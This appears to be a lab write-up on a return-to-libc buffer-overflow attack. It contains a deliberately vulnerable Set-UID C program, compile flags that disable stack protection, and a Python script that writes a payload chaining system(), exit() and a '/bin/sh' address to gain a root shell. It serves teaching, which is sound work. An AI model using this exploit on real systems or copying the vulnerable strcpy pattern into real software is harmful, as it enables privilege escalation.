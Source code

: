 ```yaml
---
title: "Return-to-libc Attack"
date: 2021-02-01T18:49:41+08:00
draft: false
---
```


To prevent buffer overflow attacks, some operating systems allow the programs to make their stacks non-executable, which means if we jump to the stack and run the shellcode, we will fail. The goal of the following experiments is to utilize the variant of buffer overflow attack -- return-to-libc attack and get the root privilege of the shell. 



## Setup

Environment:

1. Google cloud virtual machine: Ubuntu 20.04
2. Linux kernel version: 5.4.0
3. Create a symbolic link from "/bin/zsh" to "/bin/sh" since /bin/dash in most Ubuntu systems prevents itself from being executed in a Set-UID process 
4. Disable ASLR and Stackguard protection, but make the stack non-executable (our purpose of the experiment)



## Vulnerable program 

Here is a vulnerable program called retlib.c. 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int bof(char* str)
{
	char buffer[12]; 
	unsigned int* framep; 

	asm("movl %%ebp, %0" : "=r" (framep)); 

	printf("ebp value = 0x%.8x\n", (unsigned)framep); 
	printf("buffer address = 0x%.8x\n", (unsigned)buffer); 

	strcpy(buffer, str); 		// buffer overflow
	return 1; 
}

int main(int argc, char** argv)
{
	char input[100]; 
	FILE* badfile; 

	badfile = fopen("badfile", "r"); 
	int len = fread(input, sizeof(char), 100, badfile); 
	printf("input size = %d", len); 

	bof(input); 
	printf("return properly\n"); 

	return 1; 
}
```

Disable ASLR and Stackguard protection, and compile the program into the 32-bit executable. Note that we need to make the stack non-executable, so compile with the flag "-z noexecstack" as follows:

```
$ gcc -m32 -fno-stack-protector -z noexecstack retlib.c -o retlib
$ sudo chown root retlib
$ sudo chmod 4755 retlib
```



## Idea

The idea of the return-to-libc attack is to jump into a function in the library (for example, libc) without running the instruction located in the stack. To get the root privilege of the shell, our goal is to invoke system("/bin/sh"). So the first thing is to find out where is the function system(). We can use gdb debugger to print out the address of the system() as follows. 

![](https://github.com/chuang76/image/blob/master/ch3-13.PNG?raw=true)

Next, we need to figure out where is the string "/bin/sh". One method is to use an environment variable. The reason is that when we execute a program from a shell prompt, the shell actually fork itself and creates a child process to run the program. All the exported environment variables will be *inherited* by the child process. So we can export a self-defined environment variable called "my_shell" which value equals to "/bin/sh" and use a simple program called "prtenv.c" to print out the address. 

```
#include <stdio.h>
#include <stdlib.h>

void main()
{
	char* shell = getenv("my_shell"); 
	if (shell)
		printf("shell = %s, address = 0x%x\n", shell, (unsigned int)shell);
}
```

Compile the program and export the environment variable "my_shell". 

```
$ export my_shell="/bin/sh"
$ gcc -m32 prtenv.c -o prtenv
$ gcc -m32 prtenv.c -o prtaaa
$ gcc -m32 prtenv.c -o prtaaaaa
$ gcc -m32 prtenv.c -g -o prtenv_dbg
```

Here is the result. However, the address of the environment variable is sensitive to the length of the file name. Why? Let's use the debugger to figure out. 

![](https://github.com/chuang76/image/blob/master/ch3-14.PNG?raw=true)

Set a breakpoint at main function and run the program. We can find the address of environment variable with a pointer to pointer [environ](https://man7.org/linux/man-pages/man7/environ.7.html), which points to an array of pointers to strings called the "environment". As you can see, environment variables are located in the stack section. Before environment variables are pushed into the stack, the file name of the program is pushed first. So that's why the address of the environment variable may be affected by the length of the file name. 

```
(gdb) x/100s *((char **)environ)
```

![](https://github.com/chuang76/image/blob/master/ch3-15.PNG?raw=true)

![](https://github.com/chuang76/image/blob/master/ch3-16.PNG?raw=true)

![](https://github.com/chuang76/image/blob/master/ch3-17.PNG?raw=true)



## Payload

Run the vulnerable program to find out where should we put the address of system(). That is, the value of ebp - the address of buffer + the size of ebp register =  0xffffd4d8 - 0xffffd4c0 + 4 = 28. 

Here is our payload: replace the return address of strcmp()'s frame as the address of system() and put the argument of system(), i.e., the address of the string "/bin/sh". Note that it is necessary to fill the return address of system()'s frame with the address of exit(), or the program will crash. 

```
#!/usr/bin/python3

import sys 

content = bytearray(0xaa for i in range(100))

shell_addr = 0xffffdf73
system_addr = 0xf7e13420
exit_addr = 0xf7e05f80 

content[28:32] = (system_addr).to_bytes(4, byteorder='little')
content[32:36] = (exit_addr).to_bytes(4, byteorder='little')
content[36:40] = (shell_addr).to_bytes(4, byteorder='little')

with open("badfile", "wb") as f:
    f.write(content)
```

So we can get the root privilege of the shell. 

![](https://github.com/chuang76/image/blob/master/ch3-12.PNG?raw=true)



## Reference

- Programs, Processes and Memory [[link]](https://www.usna.edu/Users/cs/wcbrown/courses/IC221/classes/L08/Class.html)